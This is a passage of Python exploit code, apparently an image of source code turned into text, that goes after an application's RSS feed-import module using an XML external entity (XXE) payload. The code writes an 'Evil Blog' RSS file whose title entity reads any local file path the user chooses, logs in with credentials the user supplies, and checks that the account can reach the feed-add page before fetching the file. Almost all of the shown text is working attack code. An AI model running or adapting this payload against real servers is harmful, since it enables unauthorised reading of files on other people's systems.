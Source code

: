 ```python
            'Accept-Language': 'en-US,en;q=0.9',
            'Connection': 'close',
        }

        if method == 'POST':
            response = self.session.post(url=self.url + path, headers=headers, data=data, verify=False)
            return response
        elif method == 'GET':
            response = self.session.get(url=self.url + path, headers=headers, verify=False)
            return response
	   
    # Take user input and modify the payload
    def update_payload(self, file):
        XML_PAYLOAD = '''
        <!DOCTYPE title [ <!ELEMENT title ANY >
        <!ENTITY xxe SYSTEM "file://{}">]>
        <rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
        <channel>
            <title>Evil Blog</title>
            <link>http://example.com/</link>
            <description>A blog about things</description>
            <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
            <item>
                <title>&xxe;</title>
                <link>http://example.com</link>
                <description>a post</description>
                <author>author@example.com</author>
                <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
            </item>
        </channel>
        </rss>
        '''.format(file)
        try:
            with open('./evil', 'w') as f:
                f.write(XML_PAYLOAD)
        except Exception as e:
            print(e)

    # Try and login using user-supplied credentials
    def login(self):
        data = 'redirectPath=&username=' + self.username + '&password=' + self.password
        resp = self.requestHelper('/kwok/auth/verify-password.htm', 'POST', data)
        return (resp.url)

    # Determine if server is vulnerable.
    def isVulnerable(self):
        print('[+] Checking if Server is Vulnerable....')
        if self.login().endswith('_error=true'):
            print("[x] Login Failed - are the credentials correct?")
            exit()

        print("-- [+] Successfully Authenticated")
        if self.requestHelper('/kwok/rss/feed-add.htm', 'GET').status_code != 200:
            print("-- [X] User does not have valid permissions to RSS Module")
            exit()
        print("-- [+] Permissions are OK")
        print("[o] Server is likely vulnerable - proceeding.")
        return True

    def retrieve(self, requestedFile, feedID):
        self.update_payload(requestedFile)
        data = 'feedId=' + feedID
```